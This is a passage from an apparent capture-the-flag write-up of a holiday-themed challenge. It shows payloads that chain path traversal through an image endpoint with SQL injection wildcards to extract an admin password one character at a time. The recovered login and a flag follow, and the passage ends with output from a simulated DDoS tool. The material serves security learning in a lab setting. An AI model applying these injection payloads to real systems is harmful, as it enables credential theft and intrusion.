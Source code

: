 ```sh
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s%","auth":"cce984225bf170447abaad0fa0453ce7"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4%","auth":"e1363f9484af0f5f74bb9d742b46e6dd"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4n%","auth":"aec35f51d4c9cd352748ddfc96f420a5"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt%","auth":"53e5891faf4d065a21a2cfa8ae929627"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4%","auth":"6baf718704fe9c42d165410e4e37471c"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4s%","auth":"0c4fedfb721842a56a05405307eff3eb"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4su%","auth":"728b47db8b71517e7d8bf0462fdf60bf"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4suc%","auth":"e7fb3d6a9c0adbd839ac69922a2cddfc"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4suck%","auth":"d06aa53fa99473d10e523cd1cd8b1697"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4sucks%","auth":"c1e451e64373509cd5f30e4899fdb2ce"}'
```

Ok! Using the exfiltrated login of `grinchadmin/s4nt4sucks` we can access the attack box!

{F1134470}

`flag{07a03135-9778-4dee-a83c-7ec330728e72}`

## Takeaways
- It can be possible to dump an entire database's contents when there is an endpoint vulnerable to SQLi
- Exploits can be chained to wreak more havoc
- If an endpoint replies differently depending on whether or not some data exists you can exfiltrate information about it

# Day 12
Home stretch! Currently we are logged into the attack server after completing yesterday's challenge.

I can see that the attack server is primed to knock Santa's servers offline. To beat this challenge, we will need to redirect the attack to the Grinch's server instead. For now though, let's launch an attack on Santa just to see what happens. Sorry, Santa! Clicking the first link gets us:

```sh
grinch@attackbox:~/tools$ ./ddos --load b3d6931a61c78cf4dd1d8e4e7ad98b2a.target
Setting Target Information
Getting Host Information for: 203.0.113.33
Spinning up botnet
Launching attack against: 203.0.113.33 / 203.0.113.33
Launching attack against: 203.0.113.33 / 203.0.113.33
ping 203.0.113.33
ping 203.0.113.33
64 bytes from 203.0.113.33: icmp_seq=1 ttl=118 time=18.1 ms
64 bytes from 203.0.113.33: icmp_seq=1 ttl=118 time=18.1 ms
64 bytes from 203.0.113.33: icmp_seq=2 ttl=118 time=22.9 ms
64 bytes from 203.0.113.33: icmp_seq=3 ttl=118 time=16.3 ms
64 bytes from 203.0.113.33: icmp_seq=3 ttl=118 time=16.3 ms
Host still up, maybe try again?
Host still up, maybe try again?
.
```
